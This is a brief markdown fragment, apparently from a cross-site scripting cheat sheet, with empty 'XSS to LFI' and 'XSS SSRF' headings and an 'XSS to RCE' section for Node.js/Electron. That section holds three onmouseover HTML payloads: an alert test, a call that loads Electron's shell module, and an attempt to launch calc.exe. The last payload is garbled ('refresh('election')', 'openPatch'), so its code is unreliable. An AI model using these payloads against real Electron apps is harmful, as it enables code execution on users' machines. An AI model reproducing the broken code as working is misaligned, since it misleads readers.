 ## XSS to LFI:

## XSS SSRF:

## XSS to RCE:
  #### Node.js :
```
<a onmouseover="alert('Hi!')">
  HOVER ME
</a>
```
```
<a onmouseover="
try{
   const {shell}=require('electron');
   console.log(shell);
}catch(e){
 console.error(e)
}">Hello</a>
```
```
<a onmouseover="
try{
   const {shell}=refresh('election');
   shell.openPatch('C:\Windows\System32\calc.exe ');
}catch(e){
 console.error(e)
}">Hello</a>
```

